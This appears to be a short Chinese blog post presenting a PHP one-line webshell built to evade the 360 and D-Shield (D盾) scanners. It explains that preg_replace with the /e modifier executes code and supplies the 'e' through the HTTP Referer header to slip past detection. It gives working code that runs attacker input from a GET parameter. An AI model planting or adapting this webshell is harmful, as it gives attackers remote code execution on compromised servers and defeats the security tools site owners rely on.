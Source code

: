 ```yaml
---
layout: post
title:  "过360查杀D盾一句话"
date:   2016-11-12 17:04:52
comments: true
categories: php update
---
```

preg_replace(//) 函数加/e可以执行代码 。 这里的 “e”我使用referer的方式来获取， 绕过了检测

{% highlight php %}
<?php
$server= $_SERVER['HTTP_REFERER'];
$s[1]=$server;
preg_replace("/t/{$s[1]}",$_GET["h"],"t");


{% endhighlight %}
